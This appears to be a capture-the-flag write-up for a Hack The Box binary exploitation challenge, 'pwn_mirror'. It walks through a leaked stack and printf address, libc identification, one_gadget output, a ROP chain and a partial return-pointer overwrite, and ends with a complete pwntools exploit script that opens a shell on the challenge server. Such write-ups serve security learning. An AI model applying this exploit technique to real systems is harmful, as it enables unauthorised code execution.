

## pwn_mirror
Running a checksec : 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
The addresses are randomized

"Talking" to the mirror gives me a memory leak
```
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffc579a04e0] [0x7f753b204470]"
Now you can talk to the mirror.
> 

```

The first address points to the top of the stack and the second one to IO_printf function.



I triggered a buffer overflow. The instruction pointer can be controlled.


Now we can identify the libc version using [libc database search](https://libc.nullbyte.cat) and we can calculate our offsets

On my computer is 2.30 on the server it was 2.27.

In order to get a shell I will use one_gadget
```
one_gadget libc6_2.27-3ubuntu1.3_amd64.so --level 1 (to get all possible gadgets)

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```
Sadly, by default the binary does not meet the conditions of any gadget.
But, I will adjust the registers using a ROPchain.
I will search for gadgets in the libc because I already have the IO_printf address.

The ropchain is as following :
```
mov RDX, RAX % RAX is already null
POP RCX % RCX becomes null by placing a \x00*8 on the stack
```
```
objdump -D -Mintel libc6_2.27-3ubuntu1.3_amd64.so
...
14148d:       48 89 c2                mov    rdx,rax
...
34da3 : pop rcx ; ret

```
The next problem is that I only have control on the last byte of the return pointer. The solution is to modify the byte in such a way that the return pointer will be a bit higher on the stack, right at the beginning of my injected payload.

*NOTE : My solution is not 100% robust, sometimes the top and the bottom of the stack frame belong to different address spaces(the upper bytes differ too)*

Now I can use the 0xe5622 gadget and spawn a shell


The script : 

```
from pwn import *
p = remote('docker.hackthebox.eu','30182')

p.recvuntil('>')
msg = b'y' + b'Z'*21
msg += p64(0)
p.sendline(msg)

data = p.recvline()
log.info(data)

PRINTF = data[95:109]
RSI_STACK = data[78:92]
PRINTF = PRINTF.decode('ascii')
RSI_STACK = RSI_STACK.decode('ascii')
PRINTF = int(PRINTF, 16)
RSI_STACK = int(RSI_STACK, 16)

#2.27 X64

LIBC_BEGIN = PRINTF - 0x64f70 
log.info(hex(LIBC_BEGIN))
ONE_GADGET = LIBC_BEGIN + 0xe5622
MOV_RDX_RAX = LIBC_BEGIN + 0x014148d
POP_RCX = LIBC_BEGIN + 0x34da3
REDIR = RSI_STACK & 0x000000FF
REDIR = REDIR - 8
payload = p64(MOV_RDX_RAX)
payload += p64(POP_RCX)
payload += b'\x00'*8
payload += p64(ONE_GADGET)
payload += p8(REDIR)
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```
